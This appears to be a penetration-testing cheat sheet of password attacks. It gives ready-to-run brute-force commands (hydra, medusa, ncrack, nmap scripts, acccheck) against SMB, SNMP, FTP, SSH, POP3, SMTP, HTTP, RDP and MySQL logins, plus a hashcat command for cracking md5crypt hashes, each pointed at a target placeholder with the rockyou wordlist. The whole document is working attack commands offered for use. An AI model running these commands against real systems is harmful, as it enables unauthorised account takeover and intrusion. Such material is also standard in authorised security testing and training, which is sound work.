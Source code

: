 # Password Attacks 

## Protocols 

### SMB
```bash
nmap -sV -p 445 --script=smb-brute.nse $target
```
```bash
perl $pwd/public/tools/windows/acccheck.pl -t $target -U $pwd/public/lists/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt
```

### SNMP
```bash
hydra -P /usr/share/wordlists/rockyou.txt -v $target snmp
```

### FTP
```bash
hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $target ftp
```

### SSH
```bash
hydra -t 4 -v -V -u -L $pwd/public/lists/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt -t 1 -u $target ssh
```

### POP3
Hydra POP3 Brute Force
```bash
hydra -L $pwd/public/lists/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt -f $target pop3 -V
```

### SMTP
```bash
hydra -s 25 -v -V -l root@ucal.local -P /usr/share/wordlists/rockyou.txt -t 1 -w 20 -f $target smtp
```

### HTTP
```bash
hydra $pwd/public/lists/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt $target http-get /admin
```
```bash
medusa -h $target -u {jeff,admin} -P /usr/share/wordlists/rockyou.txt -M http -n 80 -m DIR:/xampp -T 3
```

### RDP 
```bash
ncrack -vv --user administrator -P /usr/share/wordlists/rockyou.txt rdp://$target
```
```bash
hydra -t 4 -V -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$target
```

## Hashes

### md5crypt
md5crypt passwords \$1\$:
```bash
hashcat --force -m 500 -a 0 -o found1.txt --remove puthasheshere.hash /usr/share/wordlists/rockyou.txt
```

### htaccess
```bash
medusa -h $target -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin -T 10
```

### MySQL
```bash
nmap -p 3306 --script mysql-brute --script-args userdb=/usr/share/wordlists/mysql_users.txt,passdb=/usr/share/wordists/rockyou.txt -vv $target
```
